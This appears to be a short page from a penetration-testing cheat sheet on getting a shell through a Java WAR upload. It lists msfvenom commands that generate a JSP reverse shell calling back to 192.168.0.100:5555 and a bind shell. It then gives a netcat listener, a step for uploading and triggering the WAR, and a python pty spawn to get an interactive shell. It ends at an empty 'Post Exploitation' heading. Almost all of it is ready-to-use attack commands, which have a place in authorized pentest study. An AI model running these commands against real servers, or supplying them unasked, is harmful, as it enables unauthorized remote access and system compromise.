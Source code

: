 `msfvenom -p java/jsp_shell_reverse_tcp --list-options` - check what settings need to be specified for the payloads.&#x20;

`msfvenom -p java/jsp_shell_reverse_tcp LHOST=192.168.0.100 LPORT=5555 -f war > shell.war` - JSP war Reverse Shell.&#x20;

`msfvenom -p java/jsp_shell_bind_tcp RHOST=0.0.0.0 LPORT=3155 -f war > bind.war` - JSP war Bind Shell.&#x20;

`nc -nvlp 5555` - netcat listener.&#x20;

Upload the "shell.war" to the browser, then click it to load it.&#x20;

`python -c 'import pty; pty.spawn("/bin/bash")'` - or use (/bin/sh) use this to get an [interactive shell.](http://127.0.0.1:5000/s/WPOLwOSWXgLskpcvgoOj/tips-and-tricks/spawning-shells) then you can use socat to get a more SSH-like shell.

## <mark style="color:green;">Post Exploitation</mark>















